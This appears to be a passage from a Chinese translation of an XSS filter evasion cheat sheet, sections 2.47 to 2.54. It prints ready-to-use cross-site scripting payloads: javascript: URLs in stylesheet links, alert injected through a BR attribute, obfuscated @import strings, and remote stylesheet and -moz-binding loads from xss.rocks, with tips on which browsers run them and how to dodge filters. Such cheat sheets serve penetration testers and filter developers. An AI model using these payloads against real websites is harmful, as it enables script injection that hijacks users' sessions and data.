 ### 

### 2.47.    & JavaScript包含

> <BR SIZE="&{alert('XSS')}">

### 

### 

### 2.48.    样式表

> <LINK REL="stylesheet" HREF="javascript:alert('XSS');">

### 

### 

### 2.49.    远程样式表

### 

(利用像远程样式表一样简单的形式，你可以将XSS攻击代码包含在可使用内置表达式进行重定义的样式参数里。)这只在IE和使用IE渲染模式Netscape8.1+。注意这里没有任何元素在页面中表明这页面包含了JavaScript。提示：这些远程样式表都使用了body标签,所以必须在页面中有除了攻击向量以外的内容存在时才会生效, 也就是如果是空白页的话你必须在页面添加一个字母来让攻击代码生效:

> <LINK REL="stylesheet" HREF="<http://xss.rocks/xss.css>">

### 2.50.    远程样式表2

这个和上面一样有效，不过使用了<STYLE>标签替代<LINK>标签. 这个细微的变化曾经用来攻击谷歌桌面。另一方面，如果在攻击向量后有HTML标签闭合攻击向量，你可以移除末尾的</STYLE>标签。在进行跨站脚本攻击时，如不能同时使用等号或斜杠，这是非常有用的，这种情况在现实世界里不止一次发生了:

> <STYLE>@import'<http://xss.rocks/xss.css>';</STYLE>

### 2.51.    远程样式表3

这种方式仅在Opera 8.0(9.x不可以)中有效，但方法比较有创意. 根据RFC2616，设置一个Link头部不是HTTP1.1规范的一部分,但一些浏览器仍然允许这样做 (例如Firefox和  Opera). 这里的技巧是设置一个头部（和普通头部并没有什么区别，只是设置Link: <<http://xss.rocks/xss.css>>; REL=stylesheet）并且在远程样式表中包含使用了JavaScript的跨站脚本攻击向量，这一点是FireFox不支持的:

> <META HTTP-EQUIV="Link" Content="<<http://xss.rocks/xss.css>>; REL=stylesheet">

### 2.52.    远程样式表4

这仅能在Gecko渲染引擎下有效并且需要在父页面绑定一个XML文件。具有讽刺意味的是 Netscape认为Gecko更安全 ，所以对绝大多数网站来说会受到漏洞影响:

> <STYLE>BODY{-moz-binding:url("<http://xss.rocks/xssmoz.xml#xss>")}</STYLE>

### 2.53.    含有分隔JavaScript的STYLE标签

这个XSS会在IE中造成无限循环:

> <STYLE>@im\port'\ja\vasc\ript:alert("XSS")';</STYLE>

### 2.54.    STYLE属性中使用注释分隔表达式

由Roman Ivanov创建
